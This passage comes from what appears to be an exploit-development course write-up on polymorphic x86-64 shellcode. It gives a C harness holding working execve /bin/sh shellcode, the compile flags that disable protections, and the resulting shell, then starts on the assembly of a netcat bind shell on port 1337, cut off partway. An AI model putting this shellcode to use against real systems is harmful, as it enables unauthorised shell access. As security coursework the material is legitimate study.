 ###### C format

```term
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\xf5\x99\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x48\x31\xf6\xf8\x53\x48\x89\xe7\x48\xff\xcd\x50\x48\xf7\xe5\x57\x4c\x8d\x56\xc2\x48\x89\xe6\x49\xf7\xe4\x4c\x8d\x4d\x09\xb1\x1b\x66\x6a\x20\x66\x5b\x88\xd8\x04\x1b\x0f\x05"

;

main()
{

  printf("Shellcode Length:  %d\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

}
```

#### EndGame #1

```term
whitecr0wz@SLAE64:~/assembly/assignments/Assignment_6/1_shellcode$ gcc 1_shellcode.c -o 1_shellcode -fno-stack-protector -z execstack -w 
whitecr0wz@SLAE64:~/assembly/assignments/Assignment_6/1_shellcode$ ./1_shellcode 
Shellcode Length:  59
$
```

Original size: 30
Final size: 59

Increment: 97%

#### Netcat Bind-Shell (Shellcode #2)

The second shellcode from the three will perform a bind-shell in port 1337 through the use of the tool ```netcat```. It can be found [here](http://shell-storm.org/shellcode/files/shellcode-822.php).

###### Original code:

```term
xor    	rdx,rdx
mov 	rdi,0x636e2f6e69622fff
shr	rdi,0x08
push 	rdi
mov 	rdi,rsp

mov	rcx,0x68732f6e69622fff
shr	rcx,0x08
push 	rcx
mov	rcx,rsp

mov     rbx,0x652dffffffffffff
shr	rbx,0x30
push	rbx
mov	rbx,rsp

mov	r10,0x37333331ffffffff
shr 	r10,0x20
push 	r10
```